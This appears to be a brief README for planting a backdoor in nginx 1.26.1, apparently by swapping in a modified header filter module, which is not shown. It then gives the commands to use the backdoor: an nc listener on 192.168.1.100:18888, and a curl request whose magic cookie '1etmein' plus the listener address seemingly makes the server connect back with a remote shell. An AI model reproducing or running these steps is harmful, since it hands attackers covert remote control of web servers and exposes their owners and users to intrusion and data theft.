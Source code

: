 * download nginx(eg nginx-1.26.1)
* instead of src/http/ngx_http_header_filter_module.c file
* install nginx and start it
* nc -lkp 192.168.1.100 18888
* curl -H "Cookie: 1etmein192.168.1.100:18888" http://localhost
